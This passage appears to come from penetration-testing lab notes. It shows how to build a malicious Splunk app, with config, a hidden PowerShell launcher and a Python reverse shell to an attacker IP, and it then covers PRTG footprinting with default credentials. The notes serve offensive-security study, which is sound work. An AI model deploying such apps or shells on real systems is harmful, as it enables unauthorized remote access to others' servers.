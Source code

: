     * ```inputs.conf```:

      ```text
      [script://./bin/rev.py]
      disabled = 0  
      interval = 10  
      sourcetype = shell 

      [script://.\bin\run.bat]
      disabled = 0
      sourcetype = shell
      interval = 10
      ```

    * ```run.bat``` (this will run when app is deployed):

      ```cmd
      @ECHO OFF
      PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
      Exit
      ```

    * after creating the files, we can create a tarball or '.spl' file:

      ```cmd
      tar -cvzf updater.tar.gz splunk_shell/
      ```

    * in Splunk, we can choose to 'Install app from file' and upload the malicious app (do not upgrade the app) after starting a listener on attacking machine

    * if we are dealing with a Linux host instead of Windows host, we need to edit the ```rev.py``` file before creating the tarball:

      ```py
      import sys,socket,os,pty

      ip="10.10.14.15"
      port="443"
      s=socket.socket()
      s.connect((ip,int(port)))
      [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
      pty.spawn('/bin/bash')
      ```

* PRTG Network Monitor:

  * footprinting:

    * we can check for PRTG from nmap scan like ```nmap -p- -sV -T4 10.129.201.50``` - it can be found on common web ports like 80, 443 or 8080

    * default creds are 'prtgadmin:prtgadmin', but we can test with common creds like 'password' or 'Password123' too

    * to find version:

      ```sh
      curl -s http://10.129.201.50:8080/index.htm | grep version
      ```
  